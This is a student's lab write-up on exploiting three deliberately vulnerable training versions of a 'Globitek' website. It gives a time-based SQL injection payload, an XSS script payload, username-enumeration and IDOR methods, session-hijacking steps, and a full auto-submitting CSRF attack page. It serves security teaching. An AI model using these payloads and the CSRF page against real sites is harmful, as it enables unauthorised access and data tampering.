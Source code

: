 # Week 8 - Pentesting Live Targets

Time spent: Roughly 11-12 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)

 * This vulnerability is SQLi.
 * It is taken advantage of the hacker by simply inputting the statement instead of the employee's ID number.
 * %27%20OR%20SLEEP(5)=0--%27

Vulnerability #2: Session Hijacking/Fixation

 * This vulnerability is Session Hijacking/Fixation.
 * It is taken advantage of the hacker by gaining access to the victim's Session ID via hack tools. The session ID is then input to burp suite which changes the session ID and logs the attacker in without issue.
 * Using two seperate browsers, I was able to trick the chrome browser into believing that I was actually the victim.


## Green

Vulnerability #1: Cross-Site Scripting (XSS)

 * This vulnerability is XSS.
 * <script>alert('I found it!! YAY!');</script> is what I used. 
 * The attacker can inject XSS code within the feedback form.
 * The XSS runs as soon as the owner of the account looks at the feedback form.
 * XSS was awesome!

Vulnerability #2: Username Enumeration

 * This vulnerability is Username Enumeration.
 * By the site actually giving you hints and clues. You are able to see when you input jmonroe9 the feedback shows an unbold "Login was unsuccessful". This means that the username doesn't exist. On the other hand when you input jmonroe99 the feedback shows the unsuccessful message in bold which means that the username exists, you just have the wrong password.
 * After all of this, you can go through any list and figure out which would be valid and which wouldn't.
 * Another username is: pperson


## Red

Vulnerability #1: Cross-Site Request Forgery (CSRF)

 * This vulnerability was cross-site request forgery.
 * This was one of the more difficult ones for me. I kept having typos which lead to it not working at first.
 When I got it to work, it was a lot easier. 
 * It consists of creating a malicious page which in return allows the user's session to create a request to the database.
 > <html>
  <head>
    <title>This is a Blank Page!</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://xx.xxx.xxx.xx/red/public/staff/salespeople/edit.php?id=5" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="Mr. Ken Barker" />
      	<input type="text" name="last_name" value="YOU WERE HACKED" />
      	<input type="text" name="phone" value="123-456-7890" />
      	<input type="text" name="email" value="mrbarker@yougothacked.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>

Vulnerability #2: Insecure Direct Object Reference

 * This vulnerability was Insecure Direct Object Reference.
 * The attacker (me) was allowed to view any account and even those that had been previously deactivated.
 * Simply look for previously deactivated accounts by guessing the low-number ID's.
 * There shouldn't be any feedback on an account that's been deactivated.


## Notes
This lab was difficult for me but fun at the same time. I spend a lot of time actually looking up more information on the types of attacks and what I should know before diving into the lab.

